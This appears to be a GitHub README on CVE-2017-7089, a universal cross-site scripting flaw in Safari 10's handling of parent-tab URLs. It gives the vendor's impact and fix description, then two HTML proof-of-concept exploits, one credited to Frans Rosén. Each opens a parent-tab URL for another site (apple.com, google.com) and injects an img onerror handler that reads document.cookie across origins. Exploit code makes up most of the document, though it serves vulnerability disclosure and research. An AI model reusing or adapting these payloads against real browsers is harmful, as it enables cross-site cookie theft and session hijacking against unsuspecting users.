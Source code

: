 # CVE-2017-7089

**Impact**: Processing maliciously crafted web content may lead to universal cross site scripting

**Description**: A logic issue existed in the handling of the parent-tab. This issue was addressed with improved state management.

#### Safari 10

##### Local SOP bypass

```html
<script> function Pew(){var doc=open('parent-tab://apple.com');doc.document.body.innerHTML='<img src=q onerror=alert(document.cookie)>';}</script><button onclick=Pew();>Click me!</button>
```
##### Exploit by Frans Rosén
```html
data:text/html,<script>function y(){x=open('parent-tab://google.com','_top'),x.document.body.innerHTML='<img/src=""onerror="alert(document.cookie)">'};setTimeout(y,100)</script>
```
